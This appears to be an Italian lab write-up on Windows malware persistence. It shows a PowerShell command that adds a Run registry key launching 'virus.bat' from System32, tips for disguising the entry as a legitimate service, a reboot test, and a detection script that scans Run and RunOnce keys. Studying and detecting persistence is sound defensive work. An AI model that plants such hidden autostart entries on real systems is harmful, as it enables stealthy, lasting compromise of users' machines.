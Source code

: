 #### Step 3: Registry Persistence

```powershell
# Aggiunta chiave registry per persistence
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "UpdaterService" -Value "C:\Windows\System32\virus.bat" -PropertyType String -Force
```

**Tecniche di mascheramento**:
- **Nome ingannevole**: "UpdaterService" (sembra legittimo)
- **Posizione**: System32 (directory di sistema)
- **Estensione**: .bat (meno sospetta di .exe)

#### Step 4: Verifica Persistence

```powershell
# Controllo chiavi registry
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

**Output con malware installato**:
```
SecurityHealth : C:\WINDOWS\system32\SecurityHealthSystray.exe
VBoxTray       : C:\WINDOWS\system32\VBoxTray.exe
UpdaterService : C:\Windows\System32\virus.bat
```

#### Step 5: Test Funzionalità

**Procedura**:
1. Riavvio sistema Windows
2. **Risultato osservato**:
   - Notepad si apre automaticamente all'avvio
   - Flash di CMD visibile per ~0.5 secondi
   - Processo completato senza errori

**Analisi**: La persistence funziona perfettamente! Il malware si esegue ad ogni avvio.

### Detection e Forensics

#### Identificazione Malware

```powershell
# Scansione completa chiavi persistence
$PersistenceKeys = @(
    "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
    "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce",
    "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
    "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce"
)

foreach ($Key in $PersistenceKeys) {
    if (Test-Path $Key) {
        Write-Host "=== $Key ===" -ForegroundColor Yellow
        $Items = Get-ItemProperty -Path $Key
        $Items.PSObject.Properties | Where-Object {
            $_.Name -notin @("PSPath", "PSParentPath", "PSChildName", "PSDrive", "PSProvider") -and
            ($_.Value -like "*temp*" -or $_.Value -like "*.bat" -or $_.Value -like "*suspicious*")
        } | ForEach-Object {
            Write-Host "🚨 SOSPETTO: $($_.Name) = $($_.Value)" -ForegroundColor Red
        }
    }
}
```

